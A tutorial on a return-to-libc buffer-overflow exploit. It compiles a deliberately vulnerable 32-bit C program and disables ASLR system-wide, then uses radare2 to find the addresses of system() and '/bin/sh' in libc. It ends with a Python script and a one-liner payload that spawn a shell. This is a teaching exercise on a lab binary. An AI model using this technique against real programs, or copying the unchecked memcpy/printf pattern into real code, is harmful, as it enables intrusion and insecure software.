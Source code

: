 ## Return-to-libc with radare2 with no ASLR ##

The exploit is based on the descriptions by Saif El-Sherei: <https://www.exploit-db.com/docs/28553.pdf>.
Read this pdf for details on how return to libc works in detail.
This document focuses on using radare2 for the exploit.

### Compiling ###

```
% cat bufoverflow.c                             :(
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    memcpy(buf, argv[1],strlen(argv[1]));
    printf(buf);
}
% gcc -m32 -mpreferred-stack-boundary=2 bufoverflow.c -o bufoverflow
```

The idea is to overwrite the return address of the main function with a function address we took from the libc.

We compile a 32 bit binary to make the task easier, because otherwise the function addresses we need to pass would contain zeros, and `strlen` would return a smaller number of chars than we initially wanted to `memcpy`.
Furthermore, with `-mpreferred-stack-boundary=2` we tell GCC to align the stack to a 4-byte boundary.
If we specified  `-mpreferred-stack-boundary=4`, the stack would be aligned to a 16-byte boundary, which would change the amount of A's we need to pass to the binary to be exploited.

Furthermore, we have to deactivate the ASLR. To do this system-wide, zero has to be written to the right proc file.
```
sudo echo 0 >  /proc/sys/kernel/randomize_va_space
```

### Finding the right offset ###

The buffer is 256 chars wide. The frame pointer (ebp) is pushed to the stack as part of the function prologue, which adds another 4 byte. Furthermore, ebx (4 byte again) is saved by gcc as a callee-saved register.

```
0x08048466      55             push ebp
0x08048467      89e5           mov ebp, esp
0x08048469      53             push ebx
0x0804846a      81ec00010000   sub esp, 0x100
```

In sum, we have to pass 264 random chars (usually A's are used) to the program, followed by the 4 byte of new return address we want to overwrite the original address with.

```
% ./bufoverflow `python -c "print 'A'*260"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
```

When passing 268 A's, the return address is overwritten. We can check that using the linux tool `strace`.

```
% strace ./bufoverflow `python -c "print 'A'*268"` 
....
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV +++
[1]    9950 segmentation fault  strace -f ./bufoverflow `python -c "print 'A'*268"`
```

### Finding the symbol addresses ###

Basically, we want to execute `system("/bin/sh")`, using the symbols we already have in the libc.
Therefore, we want to put the following data on the stack.

```
| 264 garbage-A's | addr_system | 4 byte garbage | addr_string_bin_sh |
```

First we need to find the address of the function `system()` and the string `/bin/sh` in the libc.
We start radare2 in debug mode (`radare2 -d PROGNAME`).

```
% radare2 -d bufoverflow
Process with PID 7286 started...
= attach 7286 7286
bin.baddr 0x56555000
Using 0x56555000
asm.bits 32
Continue until 0x5655557d using 1 bpsize
hit breakpoint at: 5655557d
```

In radare2, `-d PROGNAME PROGARGS` has to be the last option passed, since otherwise the following arguments are interpreted as arguments to the program to be debugged instead of to radare2.

The program arguments can also be passed inside of radare2 using the command `> ood foo`.


The command `dcu main` (debug continue until) executes the program until main is reached. In that manner, we can be sure that the libraries are already loaded when we want to analyze them.
Or you just put `e dbg.bep=main` into your `~/.radare2rc`, so that each program started in debug mode will break when `main()` is reached.

Next, we search for the address of the function `system` (dmi = debug memory).
```
[0x5655557d]> dmi libc system
vaddr=0xf7efcd70 paddr=0x00113d70 ord=246 fwd=NONE sz=68 bind=GLOBAL type=FUNC name=svcerr_systemerr
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=628 fwd=NONE sz=55 bind=GLOBAL type=FUNC name=__libc_system
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=1461 fwd=NONE sz=55 bind=WEAK type=FUNC name=system
```
The syntax is `dmi LIB_NAME SYMBOL_NAME`.
The `system()` address in my case is 0xf7e23b40.

_In my case, and error code 1 was returned in radare2 when searching symbols in the library. The solution was to copy the binary to another directory. No idea, why that worked._
```
[0xf7e67b06]> dmi libc system
error code 1
```

Next, we search for the address of the string "/bin/sh" in the libc.
The radare2 command for searching strings is `/ STRING`.
To search the string starting from a certain address, execute `/ STRING @ address`.
```
[0x5655557d]> dmi
0x56555000 /tmp/bufoverflow
0xf7de9000 /lib/i386-linux-gnu/libc-2.24.so
0xf7fd9000 /lib/i386-linux-gnu/ld-2.24.so
[0x5655557d]> / /bin/sh @0xf7de9000
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit0_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

An equivalent chain of commands is seeking to the address where the libc is mapped and performing the string search there.
```
[0x5655557d]> s 0xf7de9000
[0xf7de9000]> / /bin/sh
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit2_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

The address of the string is therefore `0xf7f45dc8`.

### Scripting the input ###
With a python script we can construct the input and directly pass it to the binary.

```
% cat input.py
import struct

addr_shellstr=struct.pack("<I", 0xf7f45dc8)
addr_sys=struct.pack("<I", 0xf7e23b40)

print 'A'*264+addr_sys+'D'*4+addr_shellstr
```

```
% ./bufoverflow `python input.py`
$
```

We can also directly pass the input the binary.
```
% ./bufoverflow `python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@;\xe2\xf7DDDD\xc8]\xf4\xf7'"`
```

The reason why we have to use python here is that otherwise the shell is interpreting the hex values and they don't get passed to the binary.
